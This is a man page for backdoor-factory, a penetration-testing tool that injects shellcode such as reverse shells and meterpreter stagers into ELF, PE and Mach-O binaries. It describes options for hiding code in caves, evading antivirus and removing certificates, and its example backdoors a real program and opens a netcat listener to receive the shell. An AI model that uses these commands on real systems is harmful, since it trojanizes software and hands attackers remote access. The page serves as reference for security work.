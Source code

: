 BACKDOOR-FACTORY(1)                            May 2017                            BACKDOOR-FACTORY(1)

NAME
       backdoor-factory - inject predefined or user-defined shellcode in binaries

SYNOPSIS
       backdoor-factory [options]

DESCRIPTION
       backdoor-factory patch executable binaries with user desired shellcode and continue normal
       execution of the prepatched state.

       This tool is for security professionals and researchers only.

       This tool doesn't support relocatable ELF executable (i.e. compiled with the -fPIE option,
       suggested by the Debian hardening requirements, see https://wiki.debian.org/Hardening)

       Binaries such as ssh may not be caved correctly, as binaries such as dolphin (at the time of
       this man page is written) are.

OPTIONS:
       -h, --help
         show this help message and exit

       -f FILE, --file=FILE
         File to backdoor

       -s SHELL, --shell=SHELL
         Payloads that are available for use. Use 'show' to see payloads.

       -H HOST, --hostip=HOST
         IP of the C2 for reverse connections.

       -P PORT, --port=PORT
         The port to either connect back to for reverse shells or to listen on for bind shells

       -J, --cave_jumping
         Select this options if you want to use code cave jumping to further hide your shellcode in
       the binary.

       -a, --add_new_section
         Mandating that a new section be added to the exe (better success) but less av avoidance

       -U SUPPLIED_SHELLCODE, --user_shellcode=SUPPLIED_SHELLCODE
         User supplied shellcode, make sure that it matches the architecture that you are targeting.

       -c, --cave
         The cave flag will find code caves that can be used for stashing shellcode. This will print
       to all the code caves of a specific size.The -l flag can be use with this setting.

       -l SHELL_LEN, --shell_length=SHELL_LEN
         For use with -c to help find code caves of different sizes

       -o OUTPUT, --output-file=OUTPUT
         The backdoor output file path. Parent dir(s) must exist

       -n NSECTION, --section=NSECTION
         New section name must be less than seven characters

       -d DIR, --directory=DIR
         This is the location of the files that you want to backdoor. You can make a directory of file
       backdooring faster by forcing the attaching of a codecave to the exe by using the -a setting.

       -w, --change_access
         This flag changes the section that houses the codecave to RWE. Sometimes this is necessary.
       Enabled by default. If disabled, the backdoor may fail.

       -i, --injector
         This command turns the backdoor factory in a hunt and shellcode inject type of mechanism.
       Edit the target settings in the injector module.

       -u SUFFIX, --suffix=SUFFIX
         For use with injector, places a suffix on the original file for easy recovery

       -D, --delete_original
         For use with injector module.  This command deletes the original file.  Not for use in
       production systems.
         (Author not responsible for stupid uses.)

       -O DISK_OFFSET, --disk_offset=DISK_OFFSET
         Starting point on disk offset, in bytes. Some authors want to obfuscate their on disk offset
       to avoid reverse engineering, if you find one of those files use this flag, after you find the
       offset.

       -S, --support_check
         To determine if the file is supported by BDF prior to backdooring the file. For use by itself
       or with verbose. This check happens automatically if the backdooring is attempted.

       -M, --cave-miner
         Future use, to help determine smallest shellcode possible in a PE file

       -q, --no_banner
         Kills the banner.

       -v, --verbose
         For debug information output.

       -T IMAGE_TYPE, --image-type=IMAGE_TYPE
         ALL, x86, or x64 type binaries only. Default=ALL

       -Z, --zero_cert
         Allows for the overwriting of the pointer to the PE certificate table effectively removing
       the certificate from the binary for all intents and purposes.

       -R, --runas_admin
         EXPERIMENTAL Checks the PE binaries for 'requestedExecutionLevel level="highestAvailable"'.
       If this string is included in the binary, it must run as system/admin. If not in Support Check
       mode it will attmept to patch highestAvailable into the manifest if requestedExecutionLevel
       entry exists.

       -L, --patch_dll
         Use this setting if you DON'T want to patch DLLs. Patches by default.

       -F FAT_PRIORITY, --fat_priority=FAT_PRIORITY
         For MACH-O format. If fat file, focus on which arch to patch. Default is x64. To force x86
       use -F x86, to force both archs use -F ALL.

       -B BEACON, --beacon=BEACON
         For payloads that have the ability to beacon out, set the time in secs

       -m PATCH_METHOD, --patch-method=PATCH_METHOD
         Patching methods for PE files, 'manual','automatic', replace and onionduke

       -b SUPPLIED_BINARY, --user_malware=SUPPLIED_BINARY
         For onionduke. Provide your desired binary.

       -X, --xp_mode
         Default: DO NOT support for XP legacy machines, use -X to support XP. By default the binary
       will crash on XP machines (e.g. sandboxes)

       -A, --idt_in_cave
         EXPERIMENTAL By default a new Import Directory Table is created in a new section, by calling
       this flag it will be put in a code cave.  This can cause bianry failure is some cases. Test on
       target binaries first.

       -C, --code_sign
         For those with codesigning certs wishing to sign PE binaries only. Name your signing key and
       private key signingcert.cer and signingPrivateKey.pem respectively in the certs directory it's
       up to you to obtain signing certs.

       -p, --preprocess
         To execute preprocessing scripts in the preprocess directory

ABOUT THE SHELLCODES
       There is various predefined shellcode in backdoor-factory. Their availability depends on the
       target type (ELF32, ELF64, PE32...). The shellcodes list is defined below.

for all intel-based (x86 and x86_64 architecture)
       reverse_shell_tcp
         need: a remote host and port to be set
         permits: remote shell access

       delay_reverse_shell_tcp
         need: a remote host and port to be set
         permits: remote shell access

       beaconing_reverse_shell_tcp
         need: a beacon, a remote host and port to be set
         permits: remote shell access

       user_supplied_shellcode
         need: a user-defined shellcode ready to inject
         permits: depend on the shellcode

Linux specific shellcodes
       reverse_tcp_stager
         need:
         permits:

Windows PE32 exe shellcodes
       reverse_shell_tcp_inline
         needs: a remote host and port to be set
         permits: remote shell access

       reverse_shell_tcp_stager_threaded
         needs: a remote host and port to be set
         permits: Inject the meterpreter server DLL via the Reflective Dll Injection payload

       meterpreter_reverse_https_threaded
         needs: a remote host and port to be set
         permits: meterpreter over https transport

       user_applied_shellcode_threaded
         needs: a user-defined shellcode ready to inject
         permits: depend on the shellcode

       iat_reverse_tcp_inline
         needs: a remote host and port to be set
         permits:

       iat_reverse_tcp_inline_threaded
         needs: a remote host and port to be set
         permits:

       iat_reverse_tcp_stager_threaded
         needs: a remote host and port to be set
         permits: Inject the meterpreter server DLL via the Reflective Dll Injection payload

       iat_user_applied_shellcode_threaded
         needs: a user-defined shellcode ready to inject
         permits: depend on the shellcode

Windows PE64 exe shellcodes
       delay_reverse_shell_tcp
         needs: a remote host and port to be set
         permits: remote shell access

       reverse_shell_tcp
         needs: a remote host and port to be set
         permits: remote shell access

       beaconing_reverse_shell_tcp
         needs:a beacon, a remote host and port to be set
         permits: remote shell access

       user_supplied_shellcode
         needs: a user-defined shellcode ready to inject
         permits: depend on the shellcode

EXAMPLES
       Example of cavecoding an ELF binary, by integrating a remote shell access through a remote TCP
       listener (e.g. netcat):

       backdoor-factory -f /usr/bin/dolphin -H 172.16.0.15 -P 8080 -s reverse_shell_tcp

       On the host behind the IP 172.16.0.15, start netcat in listen mode:

       $ netcat -l 172.16.0.15 8080

       On the target, start the backdoored binary: ./backdoored/dolphin

       Now, on the host 172.16.0.15, just use your shell.

HISTORY
       May 2017, Originally compiled by Philippe Thierry (phil at reseau-libre dot com)

Philippe Thierry                       Backdoor-Factory Man Page                   BACKDOOR-FACTORY(1)
